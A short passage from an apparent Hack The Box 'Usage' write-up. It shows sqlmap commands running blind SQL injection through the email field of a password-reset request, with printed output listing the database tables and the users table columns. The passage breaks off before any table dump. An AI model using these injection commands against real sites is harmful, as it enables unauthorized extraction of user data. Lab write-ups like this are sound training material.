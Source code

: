```bash
sqlmap -r ~/Documents/htb/usage/reset_password.req -p email --dbms=mysql --answers="follow=Y" --technique=B --threads 10 -D usage_blog --tables
```

**Results:**

```
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Dumped columns from `users` table:

```bash
sqlmap -r ~/Documents/htb/usage/reset_password.req -p email --dbms=mysql --answers="follow=Y" --technique=B --threads 10 -D usage_blog -T users --columns
```

**Results:**

```
Database: usage_blog
Table: users
[7 columns]
+-------------------+
| Column            |
+-------------------+
| name              | varchar(255)    |
| created_at        | timestamp       |
| email             | varchar(255)    |
| email_verified_at | timestamp       |
| id                | bigint unsigned |
| password          | varchar(255)    |
| remember_token    |
+-------------------+
```

Dumped `users` table:
